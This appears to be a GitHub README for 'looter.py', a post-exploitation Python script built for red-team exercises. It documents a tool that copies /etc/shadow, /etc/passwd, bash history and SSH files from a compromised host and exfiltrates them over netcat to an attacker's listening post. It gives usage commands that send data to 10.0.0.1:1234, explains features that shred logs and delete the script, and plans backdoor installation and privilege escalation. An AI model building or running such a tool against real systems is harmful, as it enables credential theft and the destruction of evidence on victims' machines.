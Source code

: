 #Module 1 - looter.py 
##Idea
On the 842 Ideas Spreadsheet, Andrew Kramer suggested the idea of creating an automated looting script that will collect relevant data for someone who gained root access to a box.  This is great for red team exercises where the attacker wants to be able to quickly grab useful files and data before getting booted off the system.

##Purpose
This script will crawl through a box and quickly collect useful information for an attacker.  The script will determine which OS it is on to ensure compatibility before attempting to collect anything.  The nest egg (collection stash) location will be in the present working directory of the script unless specified by the user.

This script makes an attempt is made to copy relevant files including but not limited to /etc/passwd, /etc/shadow, ~/.bash_history, etc to the nest egg location.  Once everything is collected, the files are prepared and zipped for exfiltration.  Currently, the script uses netcat to create a network connection to a listening post for exfiltration.

The goal is to be discreet and the script will shred logs, avoid writing to bash_history, and cover its own tracks after performing collections.

This Python script has been tested on Kali Linux 64 bit with Python 2.7.12.

#Help Screen 
```
usage: looter.py [-h] [-a] [-ne] [-d PATH] [-t TARGET] [-p PORT] [-r]

Looter script, collects juicy data for malicious use.

optional arguments:
  -h, --help            show this help message and exit
  -a, --all             perform all collections
  -ne, --noexfil        disable exfil feature, drop tar file in dir
  -d PATH, --dir PATH   specify nest egg path
  -t TARGET, --target TARGET 
  						specify exfil ip address (IPv4 only)
  -p PORT, --port PORT  specify exfil port number
  -r, --remove          remove script after execution
```
#Usage Examples

A collection without any exfiltration can be done with the command below:

```
python ./looter.py -a -ne
```

A collection with exfiltration to a specified IP address and port can be done with the command below:

```
python ./looter.py -a -t 10.0.0.1 -p 1234
```

Specifying the -r flag will cause the script to be destroyed after execution to cover its tracks:

```
python ./looter.py -a -t 10.0.0.1 -p 1234 -r
````

Specifying the -d flag with a valid path will change the default nest egg location:
```
python ./looter.py -a -t 10.0.0.1 -p 1234 -d ~/Desktop/
```

#Known Issues
* Clean up collection of ~/.ssh/ file (currently throws everything into single folder with everything else)

#Future Work
* Search ssh known_hosts file and attempt to log into entries
* Dump any databases into a file
* Run a quick internal network scan and output into a file

##Long Term Goals
* Attempt privilege escalation
* Attempt to install a basic backdoor
* Provide OS compatibility across OSX, Windows, and *nix


#Resources
https://pymotw.com/2/argparse/

http://stackoverflow.com/questions/3718657/how-to-properly-determine-current-script-directory-in-python

http://stackoverflow.com/questions/110362/how-can-i-find-the-current-os-in-python

http://stackoverflow.com/questions/2032403/how-to-create-full-compressed-tar-file-using-python

http://stackoverflow.com/questions/4417546/constantly-print-subprocess-output-while-process-is-running

https://docs.python.org/2/library/os.path.html#os.path.basename

http://stackoverflow.com/questions/29065781/how-can-i-get-a-python-program-to-kill-itself-using-a-command-run-through-the-mo

